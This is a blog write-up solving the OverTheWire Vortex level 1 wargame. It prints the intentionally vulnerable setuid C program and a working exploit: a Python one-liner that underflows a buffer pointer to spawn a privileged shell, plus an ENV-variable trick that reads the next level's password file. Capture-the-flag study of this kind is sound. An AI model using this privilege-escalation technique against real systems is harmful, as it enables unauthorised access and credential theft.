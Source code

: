 Title: OverTheWire: Vortex Level1
Author: Victor
Date: 2013-05-03
Tags: coding, security, wargames, vortex, appsec
Category: blog

Solution for http://www.overthewire.org/wargames/vortex/vortex1.shtml. Here's the code they have used:

~~~.c
#include 
#include 
#include 
#include

#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]); 
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break; 
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}
~~~

The executable was at /**vortex**/vortex1:

~~~.shell
$ ls -l /vortex/vortex1
-r-sr-x--- 1 vortex2 vortex1 7398 2011-11-13 23:07 /vortex/vortex1
~~~

I hope you have noticed the SETUID-Bit which belongs to user vortex2. So that programm will run as vortex2. The password we need to find out is at /etc/vortex_pass/vortex2. Now let’s analyze the code...

* There is a buffer `buf` of size 512 * ptr points at the middle of the buffer
* Everytime "\"" is read in, `ptr` is decremented. So we need to set ptr to the beginning of `buf`'s address
* `e()` is a macro which checks if `*ptr = 0xCA`. If this is true, then an "interactive shell will be launched. This is what I did:

~~~.shell
$ python -c 'print "\\"*257 + "\xca" + "XXX"' | /vortex/vortex1 
$ 
~~~

Nothing happens. We need to execute the new process (/bin/sh) with some "extra arguments". I have created following script:

~~~.shell
$ cat script.sh 
cat /etc/vortex_pass/vortex2
~~~

...then as the bash manual states:

>"When invoked as an interactive shell with the name sh, bash looks for the variable ENV, expands its value if it is defined, and uses the expanded value as the name of a file to read and execute"

We'll need to set the ENV variable properly and we're done:

~~~.shell
$ python -c 'print "\\"*257 + "\xca" + "XXX"' | env ENV=/tmp/****/script.sh /vortex/vortex1 
******
$ 
~~~

